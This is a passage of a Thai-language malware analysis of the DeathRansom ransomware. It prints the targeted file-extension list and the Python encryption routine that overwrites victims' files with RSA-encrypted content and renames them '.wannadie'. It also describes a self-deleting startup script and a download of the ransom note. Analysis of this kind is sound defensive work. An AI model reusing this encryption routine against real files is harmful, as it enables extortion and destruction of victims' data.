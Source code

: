```py
valid_extension = [".pl",".7z",".rar",".m4a",".wma",".avi",".wmv",".d3dbsp",".sc2save",".sie",".sum",".bkp",".flv",".js",".raw",".jpeg",".tar",".zip",".tar.gz",".cmd",".key",".DOT",".docm",".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd", ".bmp"]
```

มัลแวร์จะไม่เข้ารหัสไฟล์ที่ปรากฎนามสกุลไฟล์เป็น `.wannadie` ซึ่งหมายถึงไฟล์ที่ถูกเข้ารหัสโดย DeathRansom ไปแล้ว

กระบวนการเข้ารหัสไฟล์จะเริ่มต้นโดยการเรียกใช้ฟังก์ชัน `rsa.encryptar()` ซึ่งมีการระบุพารามิเตอร์ 2 รายการ ได้แก่ พาธของไฟล์และค่ากุญแจสาธารณะของผู้โจมตีซึ่งถูกดาวโหลดมาจากอินเตอร์เน็ต

```py
def encryptar(FileName,public_key):
    try:
        public_key = RSA.importKey(public_key)
        encryptor = PKCS1_OAEP.new(public_key)
        OutputFile = os.path.join(os.path.dirname(FileName), "(encrypted)" + os.path.basename(FileName) + '.wannadie')
        with open(FileName,'rb') as initial_file:
            text = initial_file.read()
            initial_file.close()
            encrypted = encryptor.encrypt(text)
        with open(FileName,'wb') as output_file:
            output_file.write(encrypted)
            output_file.close()
        os.rename(FileName,OutputFile)
        return True
    except:
        return False
```

ภายใต้ฟังก์ชัน `rsa.encryptar()` มัลแวร์เรียกค่าไถ่ DeathRansom จะดำเนินการเข้ารหัสไฟล์ตามขั้นตอนดังนี้

1. มัลแวร์นำกุญแจสาธารณะของผู้โจมตีมาผ่านฟังก์ชันเพื่อสร้าง object สำหรับการเข้ารหัสข้อมูลด้วยอัลกอริธึม RSA แบบ PKCS#1 OAEP
2. สร้างสตริงซึ่งเก็บชื่อไฟล์ใหม่หลังจากที่ถูกเข้ารหัสแล้ว
3. เปิดไฟล์ตามพาธที่ถูกส่งเข้ามา อ่านเนื้อหาในไฟล์ หลังจากนั้นใช้ object ซึ่งเกิดขึ้นจากการนำเข้ากุญแจสาธารณะมาทำการเข้ารหัสเนื้อหาไฟล์
4. เปิดไฟล์เดิมใหม่อีกครั้ง แล้วเขียนข้อมูลที่ถูกเข้ารหัสแล้วทับลงไป
5. เปลี่ยนชื่อไฟล์เป็นชื่อใหม่ตามที่ได้สร้างไว้ในขั้นตอนที่ 2

ถ้าเกิดข้อผิดพลาดใดๆ ในขั้นตอนเหล่านี้ กระบวนการเข้ารหัสไฟล์ในพาธดังกล่าวนี้จะไม่เกิดขึ้นทันที

## Post-Infection

หลังจากกระบวนเข้ารหัสไฟล์เสร็จสิ้น มัลแวร์จะมีการสร้างไฟล์สคริปต์ไว้ที่พาธ `%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\delete_ransom.bat` ไฟล์ดังกล่าวจะมีจัดเก็บคำสั่งสำหรับการลบไฟล์โปรแกรมของมัลแวร์เอาไว้

หลังจากนั้นมัลแวร์จะทำการดาวโหลดโปรแกรมซึ่งจะทำการแสดง ransom note มาทำงานในระบบด้วยฟังก์ชัน `download_ransomware_request`
